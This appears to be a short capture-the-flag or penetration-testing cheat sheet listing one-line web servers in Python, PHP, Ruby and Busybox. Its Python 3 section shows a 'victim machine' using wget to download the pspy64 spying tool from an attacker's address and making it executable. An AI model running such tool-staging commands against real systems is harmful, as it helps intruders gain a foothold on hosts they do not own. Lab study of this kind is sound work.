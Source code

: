 #### Python3
###Via web:
On our machine:
```bash
python3 -m http.server 8888

On victim machine:

wget http://10.10.16.5:8888/pspy64
chmod +x pspy64
```
[[Epsilon#^0e082d]]

#### Python2
```bash 
python -m SimpleHTTPServer 7331
```

#### PHP
```
php -S 127.0.0.1:60
```

#### Ruby
```
ruby -run -e httpd . -p 9000
```

#### Busybox
```
busybox httpd -f -p 10000
```
